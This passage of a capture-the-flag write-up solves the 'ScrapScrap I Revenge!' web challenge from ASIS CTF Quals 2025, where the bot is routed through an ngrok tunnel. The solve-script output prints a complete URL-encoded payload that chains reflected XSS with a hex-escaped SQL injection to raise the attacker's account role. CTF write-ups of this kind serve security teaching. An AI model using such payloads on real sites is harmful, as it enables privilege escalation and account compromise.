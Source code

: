 Armed with above information, we can get the flag by:
1. Register and login as a new user
2. Get our user ID
3. Build our XSS payload and send it to the `superbot` via POST request `/checker/visit`
4. Logout and log back to our account
5. Get the flag in `/scrap`

To automate the above steps, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge!]-[2025/09/09|19:05:49(HKT)]
└> ngrok tcp 5000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:14148 -> localhost:5000                             
[...]
```

- Run the solve script

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge!]-[2025/09/09|19:07:28(HKT)]
└> python3 solve.py
[*] Registering new user UZhSdAQNFB with password "UZhSdAQNFB"...
[*] Logging in as user UZhSdAQNFB...
[*] User ID: 28 | Role: demo
[*] Starting our web server...
[*] Visiting URL for bot: http://localhost:3000/checker?url=http://0.tcp.ap.ngrok.io:14148/sleep%3Fpayload%3D%3C%3Ci%3Eimg%20src%20onerror%3D%22eval%28fetch%28%27/debug/create_log%27%2C%20%7B%20method%3A%20%27POST%27%2C%20body%3A%20new%20URLSearchParams%28%7B%20%27log%27%3A%20%27%5Cx27%5Cx29%5Cx3b%5Cx55%5Cx50%5Cx44%5Cx41%5Cx54%5Cx45%5Cx20%5Cx75%5Cx73%5Cx65%5Cx72%5Cx73%5Cx20%5Cx53%5Cx45%5Cx54%5Cx20%5Cx72%5Cx6f%5Cx6c%5Cx65%5Cx3d%5Cx22%5Cx75%5Cx73%5Cx65%5Cx72%5Cx22%5Cx20%5Cx57%5Cx48%5Cx45%5Cx52%5Cx45%5Cx20%5Cx69%5Cx64%5Cx3d%5Cx32%5Cx38%5Cx3b%5Cx53%5Cx45%5Cx4c%5Cx45%5Cx43%5Cx54%27%20%7D%29%7D%29%29%22%3C/i%3E%3E
[...]
[*] Logging out as user UZhSdAQNFB...
[*] Logging in as user UZhSdAQNFB...
[*] User ID: 28 | Role: user
[+] Flag 1: ASIS{FAKE_FLAG1}
```

- **Flag: `ASIS{forget_to_check_auth_..._e550f23c48cd17e17ca0817b94aa690b}`**

## Conclusion

What we've learned:

1. Reflected XSS by using `textContent` and HTML elements as the delimiter
2. SQL injection bypass